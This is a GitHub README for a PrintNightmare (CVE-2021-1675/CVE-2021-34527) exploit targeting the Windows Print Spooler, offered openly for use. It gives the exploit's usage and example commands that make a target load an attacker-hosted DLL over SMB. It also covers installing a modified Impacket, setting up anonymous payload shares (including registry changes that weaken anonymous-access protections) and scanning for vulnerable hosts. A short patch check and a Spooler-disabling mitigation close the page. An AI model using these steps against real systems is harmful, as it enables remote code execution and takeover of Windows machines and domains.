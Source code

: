 
# CVE-2021-1675 / CVE-2021-34527

https://github.com/cube0x0/CVE-2021-1675

#spooler #printer #cve #exploit

### Patch update

Microsoft has released a patch to mitigate against these attacks but if these values below are present on a machine, then the machine will still be vulnerable

```cmd
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

### [](https://github.com/cube0x0/CVE-2021-1675#installation)Installation

Before running the exploit you need to install my version of Impacket and after that you're gucci

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### [](https://github.com/cube0x0/CVE-2021-1675#cve-2021-1675py)CVE-2021-1675.py

```bash
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### [](https://github.com/cube0x0/CVE-2021-1675#smb-configuration)SMB configuration

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

From windows it's also possible

```cmd
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### [](https://github.com/cube0x0/CVE-2021-1675#scanning)Scanning

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

### [](https://github.com/cube0x0/CVE-2021-1675#mitigation)Mitigation

Disable Spooler service

````cmd
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
````